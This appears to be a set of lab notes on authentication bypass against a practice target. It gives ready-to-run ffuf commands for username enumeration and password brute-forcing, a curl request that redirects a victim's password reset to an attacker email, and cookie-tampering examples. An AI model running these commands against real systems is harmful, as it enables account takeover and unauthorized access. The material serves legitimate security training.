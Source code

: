 ```yaml
---
title: Authentication Bypass
sidebar_position: 1
description: Authentication bypass vulnerability.
---
```


## Username Enumeration
- Support website: http://10.10.129.12/customers/signup/
    ```
    ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.129.12/customers/signup -mr "username already exists"
    ```

## Bruteforce Password
- Use the identified usernames and attempt to find the passwords.
- If you created your valid_usernames file by piping the output from ffuf directly you may have difficulty with this task. Clean your data, or copy just the names into a new file.
    ```
    ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.129.12/customers/login -fc 200
    ```
- Bruteforce individual usernames.
    ```
    ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W1 -X POST -d "username=<USERNAME>&password=W1" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.129.12/customers/login -fc 200
    ```

## Logic Flaws
- Password reset request looks like below.
    ```
    curl 'http://10.10.129.12/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
    ```
- Create an account with email id `attacker@hacker.com` and update the curl request like below.
    ```
    curl 'http://10.10.129.12/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
    ```

## Cookie Tampering
- Cookies are set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.
- Some of the examples of cookies set after successful login are
  - `Set-Cookie: logged_in=true; Max-Age=3600; Path=/`
  - `Set-Cookie: admin=false; Max-Age=3600; Path=/`
  - `Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
- `eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==` - base64 decoded has the value of `{"id":1,"admin": false}`